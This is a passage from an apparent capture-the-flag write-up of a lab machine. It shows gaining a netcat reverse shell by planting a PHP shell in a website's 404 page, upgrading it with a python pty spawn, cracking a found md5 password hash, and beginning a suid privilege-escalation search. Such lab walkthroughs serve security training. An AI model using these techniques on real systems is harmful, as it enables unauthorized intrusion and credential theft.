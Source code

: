 I can edit the behaviour for all the pages in the website because I am an admin. So I replace the 404 error page with a php reverse shell. Start a netcat listener and browse to some non existant page in the website. 

{%highlight bash%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.123.255 38851 received!
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:49:56 up 54 min,  0 users,  load average: 0.00, 0.01, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
{%endhighlight%}

And we have a shell. Before I start enumerating further, I first spawn a proper shell to get some more control. Most of the time there is python installed on a linux machine so this method always works.

{%highlight bash%}
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$
{%endhighlight%}

Now I start looking around. So the first place I look at is the /home directory because it always has some clue. I find some stuff in the directory of the user robot.

{%highlight bash%}
daemon@linux:/home/robot$ ls -alt
ls -alt
total 16
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
{%endhighlight%}

I am not able to read the 2nd key yet but I do find a hash for a password (probably for the user robot). I copy the md5 hash and head on over to [crackstation](https://crackstation.net) and the results come back rather quickly.

<img src="/images/mrrobot/crack.png" />

Reeaallll...secure password mr. robot

Now we can switch to user robot and get the second key. Next I try `sudo -l` to see my privileges but mr. robot is not allowed to use sudo. Bummer! I start looking for files that might seem interesting. So I try to list out the suid binaries.
